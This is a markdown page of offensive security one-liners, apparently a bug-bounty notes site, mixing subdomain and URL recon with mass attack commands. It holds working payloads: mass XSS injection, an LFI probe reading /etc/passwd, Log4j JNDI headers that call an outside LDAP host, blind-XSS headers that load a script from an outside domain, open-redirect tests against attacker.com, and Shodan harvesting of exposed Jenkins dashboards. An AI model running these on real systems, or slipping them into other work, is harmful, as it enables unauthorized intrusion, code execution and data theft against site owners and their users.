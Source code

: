 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


### Mass XSS via wayback machine
+ ``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
+ ``gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``


### Mass IPs listing Via Shodan
+ ```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


### Subdomain from crt.sh
+ ```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

### wordpress mysql 
+ ```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

### Get all urls from sitemap
+ ``curl -s https://target.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'``

### Waybackurls Validators
+ ``waybackurls http://bugcrowd.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort``

### Extract all endpoints from js file
+ ``cat files.txt | grep -aoP "(?<=(\"|\'|`))\/[a-zA-Z0-9?&=\/-#.](?=(\"|\'|`))" | sort -u | tee output.txt``

### OneLiner  http://rapiddns.io Curl for Doamin Recon :
+ ``curl -s "https://rapiddns.io/subdomain/target.com?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | cut -d '/' -f3  | sed 's/?t=cname//g' | sed 's/#result//g' | sed 's/\.$//' | sort -u``

### Check Mass CNAME records
+ ``cat live-domains.txt | while read domains;do dig $domains;done | grep CNAME``

### Mass LFI
+ ``cat hosts | httpx -path ///////../../../etc/passwd -mc 200 -match-string 'root:x:'``

### Open Redirect
+ ``export LHOST="attacker.com"; gau target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'``

### Find JavaScript Files
+ ``assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done``

### Get Subdomain from https://riddler.io
+ ``curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain domain from web archive
+ ``curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
``
### Get subdomain from certspotter
+ ``curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain from securitytrails
+ ``curl -s "https://api.securitytrails.com/v1/domain/target.com/subdomains" -H "APIKEY: your_api_key" | jq -r '.subdomains[]' ``

### Scan juicy ports only
+ ``nmap -sV -p 21,22,80,25,465,587,1617,3000,4848,5985,8022,8080,8282,8484,\ 8585,9200,49153,49154,49202,49203 -v target.com``

### Dependency Confusion check NPM rsgistry
+ ``cat package.json | jq -r '.dependencies + .devDependencies' | cut -d : -f 1 | tr -d '"|}|{' | sort -u | tr -s "     " | sort -u | xargs -n1 -I{} echo "https://registry.npmjs.org/{}" | grep -v "@" | httpx -status-code -silent -content-length -mc 404``

### Heartbleed vulnerability
+ `` cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done ``

### Log4j via httpx 
+ `` cat targets.txt | httpx -H "X-Api-Version: \${jndi:ldap://<ip><port>}" -H "User-Agent: \${jndi:ldap://<ip><port>}" -H "Referer: \${jndi:ldap://<ip><port>}"``

### mass blind xss
+ ``cat targets.txt| httpx -H "User-Agent: \"<script src=https://js.rip/0xmaruf></script>" -H "Host: \"<script src=https://js.rip/0xmaruf></script>" -H "Referer: \"<script src=https://js.rip/0xmaruf></script>" -H "Origin: \"<script src=https://js.rip/0xmaruf></script>"
``

### Paramspider and kxss oneliners
+ ``for URL in $(</home/kali/Desktop/subdomains.txt); do (python3 paramspider.py -d "${URL}");
done``

#Merge all txt files to one txt and run it on kxss
``cat * | sort -u | tee merged.txt | kxss``
